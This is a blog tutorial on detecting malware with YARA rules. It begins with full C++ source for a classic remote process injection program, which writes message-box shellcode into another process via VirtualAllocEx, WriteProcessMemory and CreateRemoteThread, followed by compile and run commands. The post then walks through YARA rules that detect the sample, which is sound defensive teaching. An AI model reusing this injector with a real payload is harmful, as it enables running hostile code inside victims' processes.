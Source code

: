 ```yaml
---
title:  "Malware analysis 3: threat hunting via YARA. Process injection example."
date:   2022-02-15 10:00:00 +0600
header:
  teaser: "/assets/images/40/2022-02-15_22-22.png"
categories: 
  - tutorial
tags:
  - red team
  - blue team
  - malware
  - analysis
  - yara
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![yara](/assets/images/40/2022-02-15_22-22.png){:class="img-responsive"}    

This is a some introductory self-researching to threat hunting with YARA.    

### YARA

When performing malware analysis, the analyst needs to collect every piece of information that can be used to identify malicious software. One of the techniques is [Yara](https://github.com/VirusTotal/yara) rules. In this post, I am going to explore Yara rules and how to use them in order to detect malware.    

**Yara** is an open-source tool that assists malware researchers to identify and classify malware samples by looking for certain characteristics.    

### Detect malware with Yara rules

Let's discover how to use Yara rules to discover malware. For simplicity, first example is malware with [classic](/tutorial/2021/09/18/malware-injection-1.html) process injection logic:   

```cpp
/*
hack.cpp
classic payload injection example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/02/15/malware-analysis-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// meow-meow messagebox payload (without encryption)
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

For checking correctness let's go to compile and run this code:   

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![yara](/assets/images/40/2022-02-15_22-46.png){:class="img-responsive"}    

```bash
.\hack.exe 4916
```

![yara](/assets/images/40/2022-02-15_12-43.png){:class="img-responsive"}    

As you can see, our simple malware example work perfectly.    

In Yara, each rule starts with a keyword `rule` followed by a *rule identifier*:   

![yara](/assets/images/40/2022-02-15_23-03.png){:class="img-responsive"}    

Rules are generally composed of two sections: *string* definition **(1)** and *condition* **(2)**:    

![yara](/assets/images/40/2022-02-15_23-06.png){:class="img-responsive"}    

Strings can be defined in text or hexadecimal form, as shown in the following example:    

![yara](/assets/images/40/2022-02-15_23-09.png){:class="img-responsive"}    

The condition section is where the logic of the rule resides. This section must contain a boolean expression telling under which circumstances a file or process satisfies the rule or not:    

![yara](/assets/images/40/2022-02-15_23-11.png){:class="img-responsive"}    

In our test rule, which is called meow, we are looking for all files that contain the word meow. To do this, we set the meow as string and as hexadecimal format in the rules:   

![yara](/assets/images/40/2022-02-15_22-03.png){:class="img-responsive"}    

![yara](/assets/images/40/2022-02-15_22-53.png){:class="img-responsive"}    

![yara](/assets/images/40/2022-02-15_23-09.png){:class="img-responsive"}    

### Demo

Let's go to see everything in action. It's pretty simple:   

```bash
yara meow.yar ./hack.exe
```
![yara](/assets/images/40/2022-02-15_23-32.png){:class="img-responsive"}    

And it works!   

You can also check the whole folder recursively:    

```bash
cd ../
yara -r 2022-02-15-malware-analysis-3/meow.yar ./
```

![yara](/assets/images/40/2022-02-15_23-37.png){:class="img-responsive"}    

But I want to find only `.exe` files. For this, update our yara rule, add condition: all the valid PE files contain the value of the first two-byte as `4D` and `5A` (**"MZ"** in ASCII), named after **M**ark **Z**bikowsky, a well-known architect of MS-DOS.    

![yara](/assets/images/40/2022-02-15_23-42.png){:class="img-responsive"}    

So, update our code of yara rule file:   

![yara](/assets/images/40/2022-02-15_23-58.png){:class="img-responsive"}    

Then, run with new `meow.yar`:    

```bash
cd ../
yara -r 2022-02-15-malware-analysis-3/meow.yar ./
```

![yara](/assets/images/40/2022-02-15_23-50.png){:class="img-responsive"}    

As you can see Yara found all `pe`-files which contains `Meow-meow` string.    

Also found "evil" DLLs from the [previous](/pentest/2021/10/12/dll-hijacking-2.html) blog posts:    

![yara](/assets/images/40/2022-02-15_23-57.png){:class="img-responsive"}    

[Yara](https://github.com/VirusTotal/yara)    
[awesome-yara](https://github.com/InQuest/awesome-yara)    
[Classic code injection technique](/tutorial/2021/09/18/malware-injection-1.html)    
[source code on Github](https://github.com/cocomelonc/2022-02-15-malware-analysis-3)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*

